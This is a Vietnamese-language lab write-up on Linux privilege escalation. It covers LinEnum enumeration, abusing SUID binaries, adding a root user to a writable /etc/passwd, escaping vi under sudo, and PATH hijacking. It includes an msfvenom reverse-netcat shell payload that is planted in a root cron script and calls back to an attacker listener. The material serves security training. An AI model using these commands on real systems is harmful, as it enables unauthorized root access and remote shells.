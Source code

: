 <h2>Understanding Pricesc</h2>

✔

<h2>Direction of Privilege Escalation</h2>

Priviledge Tree\
![image](https://user-images.githubusercontent.com/95600382/150273599-6221d23c-7e2d-4b20-85d1-1336ce0443ea.png)\
Có 2 loại leo thang đặc quyền:\
- Horizontal privilege escalation: Leo thang theo chiều ngang, chiếm quyền của các user ngang hàng
- Vertical privilege escalation: Leo thang theo chiều dọc, chiếm quyền hoặc nâng quyền từ user đang có.

<h2>Enumeration</h2>

LinEnum là một bash script đơn giản chứa các command sử dụng trong leo thang đặc quyền. 
links: https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
Cách có thể để chuyển LinEnum đến máy mục tiêu\
2 cách:\
Cách 1 host 1 server với python và down trực tiếp về máy mục tiêu bằng cách sử dụng `wget` sau đó phân quyền với `chmod +x` và thực thi script.\
![image](https://user-images.githubusercontent.com/95600382/150454966-105167bd-fecf-42a7-8a6b-b33c70094815.png)\
Cách 2 áp dụng khi b có một quyền hợp lý trên máy nạn nhân, copy code của linenum và thực thi nó trên máy nạn nhân.\
Output của LinEnum sẽ được chia ra thành nhiều phần, và các phần chính chúng ta nên tập trung vào là:\
Kernel: Bao gồm các thông tin về kernel và các lỗ hổng kernel có trên máy mục tiêu/
Can we read/write sensitive files: Các file được quyền đọc ghi 
SUID Files: SUID là một loại quyền đặc biệt đc tra cho file. Nó cho phép file được chạy với quyền của chủ sở hữu\
Crontab ContentS: Thông tin về Cron jobs.
VD: đăng nhập ssh vào máy mục tiêu với user3:password\
Target hostname:`polobox`\
![image](https://user-images.githubusercontent.com/95600382/150293666-32f50534-6865-40f6-b112-4aecf6c3e9ad.png)\
Chạy LinEnum:\
![image](https://user-images.githubusercontent.com/95600382/150455799-074a0bae-8d38-4993-bc43-2a8ae75ea9f5.png)\

<h2>Abusing SUID/GUID Files</h2>

**Tìm và khai thác các SUID Files**\
Chúng ta có thể tận dụng các file này để lấy shell có quyền cao hơn.\
**SUID Binary**\
Trong Linux mọi thứ đều là file với 3 quyền chính là read/write/execute. Vậy nên cần chú ý đến các user và có hoặc bị hạn chế 3 quyền này. Cơ chế phân quyền trong Linux:\
user-group-others\
rwx-rwx-rwx\
421-421-421\
Quyền max có thể set cho user là 7 (4+2+1). vd 755 là rwxr-xr-x\
Các quyền đặc biệt khi được gán cho user sẽ trở thành SUID hoặc SGID. vd bit 4 được gán cho user (Owner) sẽ trở thành SUID và bit 2 gán cho gr sẽ trở thành SGID\
Quyền SUID:\
SUID: rws-rwx-rwx\
GUID: rwx-rws-rwx\
**Tìm SUID Binary**\
LinEnum sẽ giúp b tìm các file này. hoặc b có thể tự tìm với lệnh `find / -perm -u=s -type f 2>/dev/null`
Thực thi thử file SUID shell:\
![image](https://user-images.githubusercontent.com/95600382/150458750-dce6745c-aec1-4875-8e99-48988c13e6ed.png)\
Có thể thấy quyền user đã chuyển từ user3 lên root\
![image](https://user-images.githubusercontent.com/95600382/150459057-a87a62bb-1873-4880-8a2a-453128dee45e.png)\

<h2>Exploiting Writeable /etc/passwd</h2>
  
Trong máy mục tiêu, ta tìm ra rằng user 7 nằm trong gr root do gid 0\
![image](https://user-images.githubusercontent.com/95600382/150459473-50467595-ca00-4728-b23e-a5b0170f897c.png)\
Cấu trúc file /etc/passwd/\
test:x:0:0:root:/root:/bin/bash:
username\
password: x thể hiện cho pass mã hóa đc lưu trong /etc/passwd\
userID\
groupID\
user ID info: extra info về user\
Home directory: thư mục gốc của user khi login\
Command/shell\
**Cách để khai thác một file /etc/passwd**\
Tạo thêm một user với format tương ứng với pass, uid, gid,... tùy chọn.\
VD:\
Tạo ra một password hash:
```
openssl passwd -1 -salt [salt] [password]
```
![image](https://user-images.githubusercontent.com/95600382/150460187-281471af-716c-40e4-aab8-c500858abffb.png)\
Tạo một user new có quyền root với pass hash vừa tạo:
```
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```
![image](https://user-images.githubusercontent.com/95600382/150461024-d1661232-8de9-4f22-b93a-14d83c999697.png)\

<h2>Escaping Vi Editor</h2>

```
sudo -l
```
Các lệnh có thể sử dụng với sudo.\
**Escaping Vi**\
![image](https://user-images.githubusercontent.com/95600382/150459473-50467595-ca00-4728-b23e-a5b0170f897c.png)\
Chạy lệnh `sudo -l` trên user8 có thể thấy được user này có thể chạy vi với quyền root\
![image](https://user-images.githubusercontent.com/95600382/150461581-9a155f4e-9c91-4b54-8f6e-144d70715dc0.png)\
Có thể sử dụng GTFOBins: https://gtfobins.github.io/ để bypass các security missconfig\
leo thang với vi: sudo vi > :!sh > Kết quả:\
![image](https://user-images.githubusercontent.com/95600382/150462111-14e6827a-8ef4-43e8-8ddf-5bf30fa8da7c.png)\

<h2>Exploiting Crontab</h2>

View cronjobs: `cat /etc/crontab`\
Format của Cronjob:\
# = id\
m = phút\
h = giờ\
dom = Day of the Month\
mon = Month\
dow = day of the week\
user = user nào chạy command\
command = command sẽ đc chạy\
vd:
```
17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
```
**How to khai thác ?**\
Trong ví dụ, ta có thể thấy file autoscript.sh trên user4 desktop đc chạy 5ph một lần với quyền root, và chúng ta có quyền write với file này. Tạo một command với msfvenom rồi chèn vào file script để chạy.
```
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```
![image](https://user-images.githubusercontent.com/95600382/150463243-b71c059d-7912-4b2e-aa7d-cbcc5d6b8fa7.png)\
Đợi tầm 5ph ta có thể thấy kết nối với quyền root đã đc khởi tạo thành công:\
![image](https://user-images.githubusercontent.com/95600382/150464128-7a544904-da17-4d48-96f3-82a1df58532b.png)\

<h2>Exploiting PATH Variable</h2>

PATH là một biến môi trường trong Linux và Unix sử dụng để chỉ định thư mục chứa các chương trình có thể thực thi.\
view path: `echo $PATH$\`
>How does this let us escalate privileges?

Let's say we have an SUID binary. Running it, we can see that it’s calling the system shell to do a basic process like list processes with "ps". Unlike in our previous SUID example, in this situation we can't exploit it by supplying an argument for command injection, so what can we do to try and exploit this?

We can re-write the PATH variable to a location of our choosing! So when the SUID binary calls the system shell to run an executable, it runs one that we've written instead!

As with any SUID file, it will run this command with the same privileges as the owner of the SUID file! If this is root, using this method we can run whatever commands we like as root!\

VD: Ở đây ta có một file ELF script chạy ls\
![image](https://user-images.githubusercontent.com/95600382/150497307-e1a3155b-3bfc-4820-8532-8678e8a97fca.png)\
Giờ chúng ta sẽ đổi thư mục sang `tmp` và tạo một file thực thi với 1 lệnh bất kỳ:\
echo “[whatever command we want to run]” > [name of the executable we’re imitating]\
What would the command look like to open a bash shell, writing to a file with the name of the executable we’re imitating\
`echo "/bin/bash" > ls`\
![image](https://user-images.githubusercontent.com/95600382/150498303-dedbf0f1-4dbb-4e24-88be-6004429b32b1.png)\
Sau khi phân quyền cho file chạy, giờ chúng ta phải thay đổi giá trị của biến PATH, ở đây là file nơi script `ls` được lưu trữ. Sử dụng lệnh sau:
```
export PATH=/tmp:$PATH
```
Note, this will cause you to open a bash prompt every time you use "ls". If you need to use "ls" before you finish the exploit, use "/bin/ls" where the real "ls" executable is.\
Tiếp đó quay lại màn hình và thực hiện chạy ./scriptm kết quả script đã khởi chạy thành công và nâng quyền lên root:\
![image](https://user-images.githubusercontent.com/95600382/150499472-30d17488-6d30-488b-b308-348a7d170641.png)\
Sử dụng về lại mặc định:
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH
```
để reset biến PATH


